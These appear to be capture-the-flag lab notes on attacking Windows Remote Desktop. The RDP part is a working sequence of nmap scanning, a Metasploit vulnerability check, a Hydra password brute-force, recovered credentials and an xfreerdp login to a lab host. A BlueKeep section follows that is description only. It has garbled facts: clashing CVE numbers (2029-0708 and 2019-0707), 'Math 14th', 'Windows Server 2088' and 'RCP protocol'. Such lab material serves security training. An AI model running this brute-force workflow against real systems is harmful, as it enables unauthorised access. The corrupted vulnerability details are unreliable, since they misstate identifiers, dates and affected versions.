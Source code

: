 #### Description

* The Remote Desktop Protocol (RDP) is a proprietary GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a Windows system.
* RDP uses TCP port 3389 by default, and can also be configured to run on any other TCP port.
* RDP authentication requires a legitimate user account on the target system as well as the user's password in clear-text.
* We can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access to the target system.

#### Lab

```bash
john@attack> nmap 10.3.18.102 -sV
```

**Vulnerability check**

```bash
john@attack> msfconsole

msf5> use scanner/rdp/rdp_scanner
msf5> set rhosts 10.3.18.102
msf5> set rport 3333
msf5> run
```

**Brute-force (Hydra)**

```bash
john@attack> hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.3.18.102 -s 3333
```

Credentials : `sysadmin:samantha` `demo:victoria` `auditor:elizabeth` `administrator:qwertyuiop`

**Connection (xfreerdp)**

```bash
john@attack> xfreerdp /v:10.3.18.102:3333 /u:administrator /p:qwertyuiop

PS C:\Users\Administrator> more c:\flag.txt
```

### CVE-2029-0708 (BlueKeep)

#### Description

* BlueKeep (CVE-2019-0707) is the name given to an RDP vulnerability in Windows that could potentially allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.
* The BlueKeep vulnerability was made public by Microsoft in May 2019.
* The BlueKeep exploit takes advantage of a vulnerability in the Windows RCP protocol that allows attackers to gain access to a chunk of kernel memory consequently allowing them to remotely execute arbitrary code at the system level without authentication.
* Microsoft released a patch for this vulnerability on Math 14th, 2019 and has urged companies to patch this vulnerability as soon as possible.
* At the time of discovery, about 1 million systems worldwide were found to be vulnerable.
* The BlueKeep vulnerability affects multiple versions of Windows :
  * XP
  * Vista
  * Windows 7
  * Windows Server 2088 & R2
